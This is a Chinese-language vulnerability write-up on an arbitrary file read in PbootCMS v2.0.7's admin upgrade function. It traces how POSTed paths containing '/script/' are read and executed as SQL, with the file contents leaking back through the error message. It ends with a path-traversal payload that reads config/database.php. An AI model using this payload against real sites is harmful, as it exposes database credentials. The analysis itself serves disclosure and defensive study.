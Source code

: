 ```yaml
---
title: "PbootCMS v2.0.7 任意文件读取"
id: zhfly3070
---
```


# PbootCMS v2.0.7 任意文件读取

## 一、漏洞简介

仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录

## 二、漏洞影响

PbootCMS v2.0.7

## 三、复现过程

### 漏洞分析

漏洞文件`apps/admin/controller/system/UpgradeController.php`

```
<?php
    ...
    public function update(){
        if ($_POST) {
            if (! ! $list = post('list')) {
                $list = explode(',', $list);
                $backdir = date('YmdHis');

```
 // 分离文件
            foreach ($list as $value) {
                if (stripos($value, '/script/') !== false) {
                    $sqls[] = $value;
                } else {
                    $path = RUN_PATH . '/upgrade' . $value;
                    $des_path = ROOT_PATH . $value;
                    $back_path = DOC_PATH . STATIC_DIR . '/backup/upgrade/' . $backdir . $value;
                    if (! check_dir(dirname($des_path), true)) {
                        json(0, '目录写入权限不足，无法正常升级！' . dirname($des_path));
                    }
                    if (file_exists($des_path)) { // 文件存在时执行备份
                        check_dir(dirname($back_path), true);
                        copy($des_path, $back_path);
                    }

                    // 如果后台入口文件修改过名字，则自动适配
                    if (stripos($path, 'admin.php') !== false &amp;&amp; stripos($_SERVER['SCRIPT_FILENAME'], 'admin.php') === false) {
                        if (file_exists($_SERVER['SCRIPT_FILENAME'])) {
                            $des_path = $_SERVER['SCRIPT_FILENAME'];
                        }
                    }

                    $files[] = array(
                        'sfile' =&gt; $path,
                        'dfile' =&gt; $des_path
                    );
                }
            }

            // 更新数据库
            if (isset($sqls)) {
                $db = new DatabaseController();
                switch (get_db_type()) {
                    case 'sqlite':
                        copy(DOC_PATH . $this-&gt;config('database.dbname'), DOC_PATH . STATIC_DIR . '/backup/sql/' . date('YmdHis') . '_' . basename($this-&gt;config('database.dbname')));
                        break;
                    case 'mysql':
                        $db-&gt;backupDB();
                        break;
                }
                sort($sqls); // 排序
                foreach ($sqls as $value) {
                    $path = RUN_PATH . '/upgrade' . $value;
                    if (file_exists($path)) {
                        //echo $path;
                        //exit;
                        $sql = file_get_contents($path);
                        if (! $this-&gt;upsql($sql)) {
                            $this-&gt;log("数据库 $value 更新失败!");
                            json(0, "数据库" . basename($value) . " 更新失败！");
                        }
                    } else {
                        json(0, "数据库文件" . basename($value) . "不存在！");
                    }
                }
            }

            // 替换文件
            if (isset($files)) {
                foreach ($files as $value) {
                    if (! copy($value['sfile'], $value['dfile'])) {
                        $this-&gt;log("文件 " . $value['dfile'] . " 更新失败!");
                        json(0, "文件 " . basename($value['dfile']) . " 更新失败，请重试!");
                    }
                }
            }

            // 清理缓存
            path_delete(RUN_PATH . '/upgrade', true);
            path_delete(RUN_PATH . '/cache');
            path_delete(RUN_PATH . '/complite');
            path_delete(RUN_PATH . '/config');

            $this-&gt;log("系统更新成功!");
            json(1, '系统更新成功！');
        } else {
            json(0, '请选择要更新的文件！');
        }
    }
}
... 
``` `?>` 
```

可以看到注释写着更新数据库的部分，将`$sqls`遍历出来后放进了`file_get_contents`函数，然后调用了一个`upsql()`方法。跟过去看一下。

```
<?php
    // 执行更新数据库
    private function upsql($sql){
        $sql = explode(';', $sql);
        $model = new Model();
        foreach ($sql as $value) {
            $value = trim($value);
            if ($value) {
                $model->amd($value);
            }
        }
        return true;
    }
?> 
```

将传过来的字符串用`;`分隔后又调用了一个`Model::amd()`方法。继续跟下去。

文件`core/database/Sqlite.php`

```
<?php
    ...
    // 数据增、删、改模型，接受完整SQL语句，返回影响的行数的int数据
    public function amd($sql){
        $result = $this->query($sql, 'master');
        if ($result) {
            return $result;
        } else {
            return 0;
        }
    }
    // 执行SQL语句,接受完整SQL语句，返回结果集对象
    public function query($sql, $type = 'master'){
        ...
        switch ($type) {
            case 'master':
                if (! $this->begin) { // 存在写入时自动开启显式事务，提高写入性能
                    $this->master->exec('begin;');
                    $this->begin = true;
                }
                $result = $this->master->exec($sql) or $this->error($sql, 'master');
                break;
            case 'slave':
                $result = $this->slave->query($sql) or $this->error($sql, 'slave');
                break;
        }
        return $result;
    }
    // 显示执行错误
    protected function error($sql, $conn){
        $err = '错误：' . $this->$conn->lastErrorMsg() . '，';
        if ($this->begin) { // 存在显式开启事务时进行回滚
            $this->master->exec('rollback;');
            $this->begin = false;
        }
        error('执行SQL发生错误！' . $err . '语句：' . $sql);
    }
    ...
?> 
```

这里的`amd()`方法又调用了一个`query()`方法，在`query()`方法里可以看到直接将`$sql`放进SQL执行函数里，如果执行失败，直接将`$sql`打印出来。

这样看下来这里的漏洞可以拿来执行任意SQL语句，但是由于这里用的是`sqlite`数据库，且当前已经在后台里了，所以这里的任意SQL执行也没啥可以利用的。**（可能可以审一下用数据库里的数据当做输入的点，没准能利用起来）**

但是由于正常的文件内容读出来直接当做SQL语句执行肯定会报错，所以这里可以用来读取文件。

经过回溯可以发现`$sqls`，使用的POST传输过来的数据，且数据中需要有`/script/`字符串。

### payload

```
URL: http://www.0-sec.org/admin.php?p=/Upgrade/update
POST: list=/script/../../../config/database.php 
```

即可读取到文件**（仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录）**

## 参考链接

> https://xz.aliyun.com/t/7628